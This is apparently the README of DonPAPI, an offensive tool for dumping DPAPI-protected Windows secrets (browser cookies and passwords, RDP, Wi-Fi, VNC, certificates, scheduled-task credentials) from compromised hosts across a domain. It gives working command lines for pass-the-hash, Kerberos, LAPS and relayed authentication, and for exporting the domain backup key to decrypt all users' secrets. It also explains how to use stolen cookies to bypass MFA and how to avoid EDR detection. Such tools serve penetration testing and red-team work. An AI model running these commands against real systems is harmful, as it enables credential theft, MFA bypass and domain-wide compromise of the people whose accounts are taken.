 # DonPAPI

Dumping revelant information on compromised targets without AV detection
![alt text](https://github.com/login-securite/DonPAPI/blob/main/res/Logo%20DonPapi.png)


## DPAPI dumping

Lots of credentials are protected by [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection).

We aim at locating those "secured" credentials, and retrieve them using :

- User password
- Domaine DPAPI BackupKey
- Local machine DPAPI Key (protecting `TaskScheduled` blob)

## Curently gathered info

- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials
- Windows certificates
- AdConnect (still require a manual operation)
- Wifi key
- Internet explorer Credentials
- Chrome cookies & credentials
- Firefox cookies & credentials
- VNC passwords
- mRemoteNG password (with default config)

## Check for a bit of compliance

- SMB signing status
- OS/Domain/Hostname/Ip of the audited scope

## Operational use

With local admin account on a host, we can :

- Gather machine protected DPAPI secrets
  - ScheduledTask that will contain cleartext login/password of the account configured to run the task
  - Wi-Fi passwords
- Extract Masterkey's hash value for every user profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify admin's personal computers. 
- Extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)
- Gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant.

With a user password, or the domain PVK we can unprotect the user's DPAPI secrets.  

- Use cookies to bypass MFA (https://www.eshlomo.us/pass-the-cookie-crumble-the-cloud/)

## Examples
### Authenticate with 

Dump all secrets of the target machine with an Domain admin account : 

```bash
DonPAPI domain/user:passw0rd@target
```
or a Local one : 
```
DonPAPI -local_auth user@target
```
Using PtH

```bash
DonPAPI --hashes <LM>:<NT> domain/user@target
```

Using kerberos (-k)

```bash
DonPAPI -k domain/user@target
```

Using a user with LAPS password reading rights

```bash
DonPAPI -laps domain/user:passw0rd@target
```

Using relayed socks :  
![HackndoRealying](https://pbs.twimg.com/media/FAnPpHjX0AE16r9?format=jpg&name=medium)

### Decrypt secrets 

to decrypt secrets DonPapi might need :
- Nothing, when facing reversible encryption (firefox, mremoteNG, VNC)
- the machine DPAPI Key, we will fetch it automatically thanks to secretdumps when having an admin acces (Wifi, scheduled task passwords)
- the user password for everything related to DPAPI Protection, or de DPAPI Domain Backup key

It is possible to provide a list of credentials that will be tested on the target. DonPAPI will try to use them to decipher masterkeys.

This credential file must have the following syntax:

```plain
user1:pass1
user1:pass2
user2:passX
...
```

```bash
DonPAPI -credz credz_file.txt domain/user:passw0rd@target
```

When a domain admin user is available, it is possible to dump the domain backup key using impacket `dpapi.py` tool: 

```bash
dpapi.py backupkeys --export -t domain/user:passw0rd@target_dc_ip
```

This backup key (pvk file) can then be used to dump all domain user's secrets!

`DonPAPI -pvk domain_backupkey.pvk domain/user:passw0rd@domain_network_list`

### Select targets
Target can be an IP, IP range, CIDR, FQDN, file containing list targets (one per line)

## Reports & raw data
DonPapi will extract and consolidate a bunch of raw information 
- raw user and passwords in 'raw_credz' 
- dumped certificates informations
- raw cookies 
- raw sam hash
- raw users masterkey's hash (Good luck with cracking those, but it might be the only hash you'll get for some SuperAdmin Accounts)
- raw DCC2

HTML Reports will be created, as you'll probably have so many passwords that your browser will crash rendering it, i tried to separate those in few reports.

Cookies are great to bypass MFA, by clicking on a cookie in the report you'll copy what you need to paste to cookie in your browser dev console.

If the certificate allow client authentication, you can click on "Yes" to get a working `certipy auth` command with the certificate in your clipboard.

some info are excluded from the reports, you can still acces all the data in the sqlite3 donpapi.db database.


## Opsec consideration

The RemoteOps part can be spoted by some EDR (it's basically a secretdump). It can be disabled using `--no_remoteops` flag, but then the machine DPAPI key won't be retrieved, and scheduled task credentials/Wi-Fi passwords won't be harvested. 

## Installation

```
git clone https://github.com/login-securite/DonPAPI.git
cd DonPAPI
python3 -m pip install .
DonPAPI
```

or

```
pip install git+https://github.com/login-securite/DonPAPI.git
DonPAPI
```

or

```
git clone git+https://github.com/login-securite/DonPAPI.git
cd DonPAPI
poetry update
poetry run DonPAPI
```

## Credits

All the credits goes to these great guys for doing the hard research & coding :

- Benjamin Delpy ([@gentilkiwi](https://twitter.com/gentilkiwi)) for most of the DPAPI research (always greatly commented, <3 your code)
- Alberto Solino ([@agsolino](https://twitter.com/agsolino)) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- [Alesandro Z](https://github.com/AlessandroZ) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm [@_dirkjan](https://twitter.com/_dirkjan) for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. I learned so much on so many subjects thanks to you. <3
- [@byt3bl33d3r](https://twitter.com/byt3bl33d3r) for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team at [@LoginSecurite](https://twitter.com/LoginSecurite) for their help in debugging my shity code (special thanks to [@layno](https://github.com/clayno) & [@HackAndDo](https://twitter.com/HackAndDo) for that)

## Todo

- Finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- Further analysis ADAL/msteams
- Implement Chrome <v80 decoder
- Find a way to implement Lazagne's great modules

# Changelog

  ```
  v1.0
  ----
  Initial release
  ```
